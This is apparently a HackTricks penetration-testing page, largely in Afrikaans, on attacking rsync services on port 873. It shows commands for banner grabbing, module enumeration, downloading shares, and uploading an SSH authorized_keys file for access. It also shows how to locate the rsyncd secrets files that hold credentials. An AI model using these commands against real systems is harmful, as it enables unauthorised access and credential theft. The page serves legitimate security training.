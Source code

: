 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basiese Inligting**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** is 'n nut vir doeltreffende [transferring](https://en.wikipedia.org/wiki/File_transfer) en [synchronizing](https://en.wikipedia.org/wiki/File_synchronization) [files](https://en.wikipedia.org/wiki/Computer_file) tussen 'n rekenaar en 'n eksterne hardeskyf en oor [networked](https://en.wikipedia.org/wiki/Computer_network) [computers](https://en.wikipedia.org/wiki/Computer) deur die [modification times](https://en.wikipedia.org/wiki/Timestamping_\(computing\)) en groottes van lêers te vergelyk.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) Dit word algemeen op [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating_system) aangetref. Die rsync-algoritme is 'n tipe [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding), en word gebruik om netwerkgebruik te minimaliseer. [Zlib](https://en.wikipedia.org/wiki/Zlib) kan gebruik word vir addisionele [data compression](https://en.wikipedia.org/wiki/Data_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) en [SSH](https://en.wikipedia.org/wiki/Secure_Shell) of [stunnel](https://en.wikipedia.org/wiki/Stunnel) kan gebruik word vir sekuriteit.

**Standaard poort:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Opname

### Banier & Handmatige kommunikasie
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Opname van Gedeelde Mappe**

**Rsync-modules** word erken as **gedeelde direkteure** wat moontlik **met wagwoorde beskerm word**. Om beskikbare modules te identifiseer en te kyk of hulle wagwoorde benodig, word die volgende opdragte gebruik:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Wees bewus daarvan dat sommige gedeeltes dalk nie in die lys verskyn nie, wat hulle moontlik verberg. Daarbenewens kan toegang tot sommige gedeeltes beperk wees tot spesifieke **credentials**, aangedui deur 'n **"Access Denied"** boodskap.

### [**Brute Force**](../generic-hacking/brute-force.md#rsync)

### Handmatige Rsync Gebruik

Na die verkryging van 'n **module lys**, hang aksies af van of verifikasie nodig is. Sonder verifikasie kan **lys** en **kopieer** van lêers van 'n gedeelde gids na 'n plaaslike gids bereik word deur:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Hierdie proses **herhalend oordra lêers**, terwyl hulle eienskappe en toestemmings behou.

Met **akkrediteeringe** kan lys en aflaai vanaf 'n gedeelde gids soos volg gedoen word, waar 'n wagwoordprompt sal verskyn:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
Om **inhoud op te laai**, soos 'n _**authorized\_keys**_ lêer vir toegang, gebruik:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

Om die rsyncd konfigurasie lêer te vind, voer uit:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Within this file, a _secrets file_ parameter might point to a file containing **gebruikernamme en wagwoorde** for rsyncd authentication.

## References

* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
